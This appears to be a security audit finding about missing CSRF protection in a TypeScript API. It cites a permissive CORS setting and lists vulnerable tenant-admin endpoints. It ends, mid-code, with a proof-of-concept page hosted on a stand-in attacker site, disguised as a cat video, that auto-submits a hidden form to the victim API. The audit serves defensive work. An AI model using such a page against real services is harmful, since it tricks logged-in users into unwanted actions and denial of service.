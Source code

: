 #### Vulnerability Description

State-changing API endpoints (POST, PUT, DELETE) lack CSRF protection, allowing attackers to trick authenticated users into performing unwanted actions.

#### Affected Code

**File:** `packages/api/src/app.ts` (lines 60)

```typescript
app.use(cors(config.cors));  // ⚠️ CORS configured, but no CSRF tokens
```

**File:** `packages/api/src/config.ts` (lines 24-27)

```typescript
cors: {
  origin: process.env.CORS_ORIGIN || '*',  // ⚠️ May be too permissive
  credentials: true,  // ⚠️ Allows cookies, makes CSRF possible
}
```

**No CSRF middleware found in:**
- `packages/api/src/middleware/` - No CSRF protection middleware
- `packages/api/src/app.ts` - No CSRF token validation
- `packages/api/src/routes/index.ts` - No CSRF checks

#### Vulnerability Analysis

**Conditions for CSRF:**
1. ✅ API uses cookies or Authorization headers (JWT in Authorization header)
2. ✅ CORS credentials: true (allows cookies)
3. ✅ State-changing endpoints (POST, PUT, DELETE)
4. ❌ No CSRF tokens required
5. ❌ No SameSite cookie attribute

**Vulnerable Endpoints:**
- `POST /api/modules/sod/:tenantId/analyze` - Trigger expensive SoD analysis
- `POST /api/admin/tenants/:id/discover` - Trigger service discovery (SSRF risk)
- `PUT /api/admin/tenants/:id` - Modify tenant configuration
- `DELETE /api/admin/tenants/:id` - Delete tenant
- `POST /api/modules/sod/:tenantId/violations/:id/acknowledge` - Acknowledge violation
- All other POST/PUT/DELETE endpoints

#### Proof of Concept

**Attack Scenario: CSRF to Trigger SoD Analysis (DoS)**

**Attacker's Website (evil.com):**
```html
<!DOCTYPE html>
<html>
<head>
  <title>Funny Cat Video</title>
</head>
<body>
  <h1>Loading funny cat video...</h1>

  <!-- Hidden form that submits to victim API -->
  <form id="csrf" action="https://api.victim.com/api/modules/sod/victim-tenant/analyze" method="POST">
    <input type="hidden" name="fullAnalysis" value="true">
  </form>

  <script>
    // Auto-submit form when page loads
    document.getElementById('csrf').submit();
  </script>

```